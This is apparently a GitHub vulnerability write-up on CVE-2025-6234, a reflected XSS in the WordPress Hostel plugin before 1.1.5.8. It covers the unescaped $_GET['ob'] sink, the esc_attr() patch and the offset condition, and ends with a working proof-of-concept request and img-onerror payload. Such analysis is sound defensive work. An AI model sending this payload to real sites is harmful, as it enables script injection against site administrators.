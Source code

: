 # CVE-2025-6234 Analysis & POC


---

The vulnerability exists in the **Hostel** plugin for WordPress prior to version **1.1.5.8**. An attacker could exploit it to target high-privilege users like **admins**.

* **CVE ID**: [CVE-2025-6234](https://www.cve.org/CVERecord?id=CVE-2025-6234)
* **Product**: [WordPress Hostel Plugin](https://wordpress.org/plugins/hostel/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: < 1.1.5.8
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Hostel Plugin**: v1.1.5.7 (vulnerable) and v1.1.5.8 (patched)
* **Diff tool**: meld or any tool that can compare two versions

---

## Analysis

The root cause is the lack of **sanitization** and **escaping** for a parameter before rendering it on the page, leading to a **Reflected Cross-Site Scripting (XSS)** vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.
The differences are clearly in two files: **views/bookings.html.php** and **controllers/bookings.php**

**File views/bookings.html.php**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The parameter `ob` is directly taken from `$_GET['ob']` and echoed into an HTML attribute **without escaping**, making it vulnerable to **Reflected XSS**, since an attacker can inject payloads into the query string.

**Patched Code**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The patch uses `esc_attr()` to safely encode `$_GET['ob']` before echoing into the HTML attribute.

![diff](diff_code.png "Diff showing patched and vulnerable code")

* Source: `$_GET['ob']` is **client-controlled input** from the URL query string.
* Sink: echoed in an **HTML attribute** `ob=<?php echo @$_GET['ob']?>`.

👉 Because the source does not go through controller logic, the diff of **controllers/bookings.php** is less relevant.

### How it works

For `$_GET['ob']` to be echoed in the HTML attribute of `<a>`, the `if` condition enclosing `<a>` must be true:

```php
<?php if($offset > 0):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?> 
<?php if($count > ($page_limit + $offset)):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?>	
```

👉 The key condition is `if($offset > 0)`. If true, the XSS can occur regardless of the second condition.

The **views/bookings.html.php** file cannot be accessed directly; it must be included by the **controller** using `include()`.

The `$offset` variable is initialized in the controller and passed to the view.

Searching the plugin controllers shows that `$offset` is set in the `default` branch (**listing bookings**) of the static `manage()` method in class `WPHostelBookings` in **controllers/bookings.php**.

**Controller Code**

```php
class WPHostelBookings {
    static function manage() {
        global $wpdb;
        $_booking = new WPHostelBooking();

        switch(@$_GET['do']) {
            // other logic
            
            // list bookings
            default:
                $type = empty($_GET['type']) ? 'upcoming' : sanitize_text_field($_GET['type']);
                $offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
                $dir = empty($_GET['dir']) ? 'ASC' : $_GET['dir'];
                if($dir != 'ASC' and $dir != 'DESC') $dir = 'ASC';
                $odir = ($dir == 'ASC') ? 'DESC' : 'ASC';
                
                $page_limit = 20;
                $limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
                
                $bookings = $wpdb->get_results("SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
                    FROM ".WPHOSTEL_BOOKINGS." tB JOIN ".WPHOSTEL_ROOMS." tR ON tR.id = tB.room_id
                    WHERE is_static=0 $where_sql $orderby $limit_sql");
                $count = $wpdb->get_var("SELECT FOUND_ROWS()");	
                
                if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
                else include(WPHOSTEL_PATH."/views/bookings.html.php");				  
            break;
        }
    }
}
```

**Analysis of `$offset`**

* `$offset` comes from the URL parameter `$_GET['offset']`:

  * Absent → defaults to 0
  * Present → cast to integer via `intval()`

```php
$offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
```

**Analysis of `$page_limit`**

* `$page_limit` is fixed at `20` for pagination

```php
$page_limit = 20;
$limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
```

This ensures SQL returns up to **20 records** starting from `$offset`.

**XSS condition in view**:

* The payload displays only if `if($offset > 0)` → requires at least **1 offset**
* Exploit requires at least **2 bookings** in the database to render payload

The controller passes results to the view using:

```php
if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
else include(WPHOSTEL_PATH."/views/bookings.html.php");	
```

`WPHOSTEL_PATH` is the absolute path to the plugin directory.

![search path](search_path.png "Absolute path to the plugin directory")

---

## Exploit

**Request with XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload**

```html
"><img src=x onerror=alert(document.domain)>
```

* Closes `<a>` tag with `">`
* Adds `<img>` tag with `onerror` to trigger JavaScript
* Uses `alert(document.domain)` to clearly demonstrate DOM access

**Result**

![xss success](xss_success.png "Reflected XSS triggered successfully")

---

## Conclusion

The **CVE-2025-6234** vulnerability in the **WordPress Hostel** plugin stems from improper handling of input `($_GET['ob'])` before rendering. This allows an attacker to inject **Reflected XSS**.

The patch fixes it by using `esc_attr()` to escape the input, ensuring untrusted values cannot inject malicious scripts.

**Key takeaways**:

* Always **sanitize** input and **escape** output according to context.
* In WordPress, leverage built-in functions like `sanitize_text_field()`, `esc_attr()`, `esc_html()`, `wp_kses()` to mitigate security risks.

---

## References

[XSS Cross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Hostel Plugin < 1.1.5.8 is vulnerable to Cross Site Scripting (XSS) - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-plugin-1-1-5-8-reflected-xss-vulnerability)

---

